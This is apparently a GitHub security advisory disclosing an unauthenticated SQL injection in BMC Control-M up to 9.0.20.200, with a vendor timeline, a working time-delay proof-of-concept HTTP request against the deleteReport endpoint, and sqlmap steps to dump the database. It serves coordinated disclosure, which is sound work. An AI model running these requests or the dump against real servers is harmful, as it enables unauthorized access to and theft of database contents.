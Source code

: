 # BMC Control-M Unauthenticated SQL Injection
**BMC Control-M Unauthenticated SQL Injection Version < 9.0.20.200**

**Timeline:**      
**Vulnerability reported to vendor:** 26.08.2022     
**New fixed 9.0.21 version released:** 12.09.2022    
**Patch for version 9.0.20.200 released:** 21.12.2022     
**Disclosure:** 05.06.2023    

**Affected Products:**   
BMC Control-M software up to (including) 9.0.20.200 .
Vulnerability found and confirmed in version 9.0.20.100, information about patch in version 9.0.20.200 comes from the vendor.



BMC Control-M software versions up to (including) 9.0.20.200 are vulnerable to Unauthenticated SQL Injection.    
Vulnerable parameter _report-id_ is present within _/RF-Server/report/deleteReport_ endpoint.    

Below is the Proof of Concept request which triggers a 10 seconds delay:
```
DELETE /RF-Server/report/deleteReport?report-id=’+waitfor+delay+’0:0:10’--
Host: [REDACTED]
Connection: close
user-id: X
Accept: application/json, text/plain, */*
server-name:
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: X
```
Additional Info: _Cookie_ and _user_id_ headers must be present, but the value can be random.     
Screenshot from BurpSuite:    
![poc](https://github.com/DojoSecurity/BMC-Control-M-Unauthenticated-SQL-Injection/assets/44198831/a22930eb-3da5-470e-9116-0d25b35ee5a5)

**Steps to dump the database:**   
Save the above request (without the payload) to a file request.txt :    
```
DELETE /RF-Server/report/deleteReport?report-id=1
Host: [REDACTED]
Connection: close
user-id: X
Accept: application/json, text/plain, */*
server-name:
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: X
```
Execute following _sqlmap_ command:    
```
sqlmap -r request.txt -p report-id —-no-cast —-dbs 
```
Screenshot of extracted database structure:   
![dbscreen](https://github.com/DojoSecurity/BMC-Control-M-Unauthenticated-SQL-Injection/assets/44198831/45e98cb0-de9a-4411-959b-eabc40171634)

